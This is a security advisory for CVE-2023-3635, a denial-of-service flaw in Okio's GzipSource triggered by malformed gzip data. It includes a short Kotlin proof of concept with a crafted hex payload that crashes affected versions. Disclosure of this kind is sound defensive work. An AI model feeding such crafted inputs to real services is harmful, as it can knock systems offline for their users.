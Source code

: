 ```yaml
---
description: CVE-2023-3635, MEDIUM, Okio GzipSource unhandled exception Denial of Service
title: Okio GzipSource unhandled exception Denial of Service
date_published: "2023-07-12"
last_updated: "2023-07-12"
xray_id: XRAY-589879
vul_id: CVE-2023-3635
cvss: 5.9
severity: medium
discovered_by: Uriya Yavnieli
type: vulnerability

---
```


## Summary

Okio GzipSource unhandled exception Denial of Service

## Component

com.squareup.okio:okio

## Affected versions

(,3.4.0)

## Description

GzipSource does not handle an exception that might be raised when parsing a malformed gzip buffer. This may lead to denial of service of the Okio client when handling a crafted GZIP archive, by using the GzipSource class.

## PoC

```kot
val gzBuf: Buffer = Buffer()
    try {
        val gzByteString: ByteString = ("1f8b41ff424242424343ffff").decodeHex()
        gzBuf.write(gzByteString)
        val gz: GzipSource = GzipSource(gzBuf)
        val sinkBuf: Buffer = Buffer()
        gz.read(sinkBuf, 5)
    }
    catch(e: IOException) {
        println("got error: " + e.toString())
    }
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[https://github.com/square/okio/commit/81bce1a30af244550b0324597720e4799281da7b](https://github.com/square/okio/commit/81bce1a30af244550b0324597720e4799281da7b)

